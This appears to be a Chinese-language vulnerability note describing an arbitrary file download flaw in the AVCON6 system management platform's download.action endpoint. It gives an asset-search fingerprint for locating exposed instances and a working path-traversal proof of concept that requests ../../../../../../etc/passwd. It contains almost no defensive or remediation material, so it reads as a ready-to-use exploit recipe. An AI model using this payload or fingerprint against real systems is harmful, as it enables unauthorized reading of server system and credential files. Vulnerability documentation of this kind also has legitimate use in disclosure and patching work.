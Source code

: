 # AVCON6 系统管理平台 download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 download.action 存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## 网络测绘

```
app="AVCON-6"
```

## 漏洞复现

登录页面

![img](./images/202202101910735.png)

验证POC

```php
/download.action?filename=../../../../../../etc/passwd
```

![img](./images/202202101910750.png)